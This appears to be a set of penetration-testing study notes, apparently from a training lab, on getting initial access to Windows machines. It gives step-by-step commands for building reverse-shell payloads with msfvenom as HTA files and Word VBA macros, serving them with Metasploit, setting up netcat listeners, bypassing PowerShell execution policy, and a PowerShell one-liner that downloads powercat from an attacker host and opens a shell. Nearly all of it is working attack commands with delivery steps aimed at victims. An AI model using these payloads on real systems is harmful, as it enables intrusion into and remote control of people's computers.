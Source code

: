 ## Malicouis HTA (HTML Appplication) payload via msfvenom

1. Create the payload: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker IP> LPORT=<local port> -f hta-psh -o thm.hta`  
2. Set up a listener on the attack box:  `sudo nc -lvp 443`    
3. Delivery the payload to the target  
4. Wait for the reverse shell 

## Malicouis HTA via metasploit

1. exploit module: `exploit/windows/misc/hta_server`  
2. set LHOST, LPORT, and SRVHOST  
3. set payload:  `set payload windows/meterpreter/reverse_tcp`
4. run the exploit(starts the listener): `exploit`  
5. Get the victim to visit the site  
6. Wait for the reverse shell  

## Embed malicious vba script in a MS Word Document  

1. Create the vba script with msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker IP> LPORT=<local port> -f vba`  
2. Modify the vba:  Replace `Workbook_Open()` with `Document_Open()`  . No changes required if using Excel Document
3. Add vba script to Word document: 
   - View` -> `Macros 
   - Give the macro a name
   - Change `Macros in` to `Document1 (document)`
   - Create
   - Paste vba script in the macro window
   - Save the document as `Word 97-2003 Document`
4. Start metasploit  
   - `use exploit/multi/handler`
   - `set payload generic/shell_reverse_tcp`
   - set LHOST and LPORT
   - Start the listener: `exploit`
5. Delivery the payload(MS Document)
6. Wait for the reverse shell

## Powershell

1. Change Powershell execution policy: `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned` or `powershell -ex bypass -File <powershell script>.ps1`
2. Staging attack box:
   - `git clone https://github.com/besimorhino/powercat.git`
   - `cd powercat`
   - `python3 -m http.server <port>`
   - In a separater terminal window: `nc -lvp <port>`
3. On the victim box:
   - `powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attack box>:<port>/powercat.ps1');powercat -c <attack box> -p <port> -e cmd"`



